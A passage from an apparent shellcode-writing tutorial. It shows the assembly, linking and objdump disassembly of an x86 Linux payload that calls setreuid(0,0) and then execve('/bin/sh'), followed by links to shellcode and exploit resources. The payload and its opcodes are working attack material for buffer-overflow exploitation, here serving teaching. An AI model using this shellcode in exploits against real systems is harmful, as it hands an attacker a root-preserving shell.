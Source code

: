 When the starter: portion is executed the memory arrangement should be something like this:

<img src="images/image059.png" /><br />
Where:<br />
a - Address of the string<br />
Figure 3: Memory arrangement for our shellcode.

Let compile and link the program and then disassemble it to get the equivalent hexadecimal opcodes.

```
[bodo@bakawali testbed8]$ as testshell2.s -o testshell2.o
[bodo@bakawali testbed8]$ ld testshell2.o -o testshell2
[bodo@bakawali testbed8]$ objdump -d testshell2

testshell2:     file format elf32-i386

Disassembly of section .text:

08048074 <_start>:
8048074:       31 c0      xor     %eax, %eax
8048076:       b0 46      mov     $0x46, %al
8048078:       31 db      xor     %ebx, %ebx
804807a:       31 c9      xor     %ecx, %ecx
804807c:       eb 16      jmp     8048094 <ender>

0804807e <starter>:
804807e:       5b         pop     %ebx
804807f:       31 c0      xor     %eax, %eax
8048081:       88 43 07   mov     %al, 0x7(%ebx)
8048084:       89 5b 08   mov     %ebx, 0x8(%ebx)
8048087:       89 43 0c   mov     %eax, 0xc(%ebx)
804808a:       b0 0b      mov     $0xb, %al
804808c:       8d 4b 08   lea     0x8(%ebx), %ecx
804808f:       8d 53 0c   lea     0xc(%ebx), %edx
8048092:       cd 80      int     $0x80

08048094 <ender>:
8048094:       e8 e5 ff ff ff    call   804807e <starter>
8048099:       2f                das
804809a:       62 69 6e          bound  %ebp, 0x6e(%ecx)
804809d:       2f                das
804809e:       73 68             jae    8048108 <ender+0x74>
80480a0:       4e                dec    %esi
80480a1:       41                inc    %ecx
80480a2:       41                inc    %ecx
80480a3:       41                inc    %ecx
80480a4:       41                inc    %ecx
80480a5:       42                inc    %edx
80480a6:       42                inc    %edx
80480a7:       42                inc    %edx
80480a8:       42                inc    %edx
```


[1]: http://www.metasploit.com/
[2]: http://www.shellcode.org/
[3]: http://www.shellcode.com.ar/docz/bof/Writing_shellcode.html
[4]: http://www.shellcode.com.ar/en/shellcodes.html
[5]: http://packetstorm.linuxsecurity.com/shellcode/
[6]: http://www.l0t3k.org/programming/docs/shellcode/
[7]: http://www.vividmachines.com/shellcode/shellcode.html
[8]: http://www.infosecwriters.com/hhworld/shellcode.txt
[9]: http://www.hick.org/code/skape/papers/win32-shellcode.pdf
[10]: http://www.orkspace.net/software/libShellCode/index.php
[11]: http://www.phrack.org/issues.html?issue=49&id=14#article
[12]: http://www.phrack.org/issues.html?issue=57&id=15#article
[13]: http://www.phrack.org/issues.html?issue=57&id=5#article
[14]: http://www.phrack.org/issues.html?issue=61&id=11#article
[15]: http://www.infosyssec.com/